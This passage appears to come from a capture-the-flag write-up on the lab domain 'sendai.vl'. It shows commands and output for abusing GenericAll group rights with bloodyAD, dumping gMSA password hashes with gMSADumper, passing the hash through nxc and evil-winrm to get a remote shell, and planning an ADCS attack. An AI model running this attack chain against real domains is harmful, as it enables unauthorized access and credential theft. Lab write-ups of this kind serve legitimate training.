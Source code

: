 we have  ReadGMSAPassword

## GenericAll (add user group)

    (myenv) ➜  bloodyAD bloodyAD -d sendai.vl --host 10.10.65.237 -u Elliot.Yates -p Password123! add groupMember ADMSVC Elliot.Yates
    [+] Elliot.Yates added to ADMSVC

### GMSAdumper

    ➜  gMSADumper git:(main) python3 gMSADumper.py -u 'Elliot.Yates' -p 'Password123!' -d sendai.vl
    Users or groups who can read password for mgtsvc$:
    > admsvc
    mgtsvc$:::ce0b2ff6ebd759c1b0<redacted>
    mgtsvc$:aes256-cts-hmac-sha1-96:31aadec6c9cae2c03f9854ebd5b2d30c977ef3cc581c7916ef4e117dbdee820f
    mgtsvc$:aes128-cts-hmac-sha1-96:9e8e656f855314bf46064861f59a8c0d

mgtsvc$

    ➜  sendai nxc winrm DC -u mgtsvc$ -H ce0b2ff6ebd759<redacted>
    WINRM       10.10.65.237    5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:sendai.vl)
    WINRM       10.10.65.237    5985   DC               [+] sendai.vl\mgtsvc$:ce0b2ff6ebd7<redacted> (Pwn3d!)

#### winrm shell 

    ➜  sendai evil-winrm -i DC -u mgtsvc$ -H ce0b2ff6ebd759c<redacted>
                                            
    Evil-WinRM shell v3.7
                                            
    Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                            
    Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                            
    Info: Establishing connection to remote endpoint
    *Evil-WinRM* PS C:\Users\mgtsvc$\Documents> 

there is ca-operators groups so for ADCS attack i chceked which user we need.

![alt text](<../assets/images/4 (1).png>)
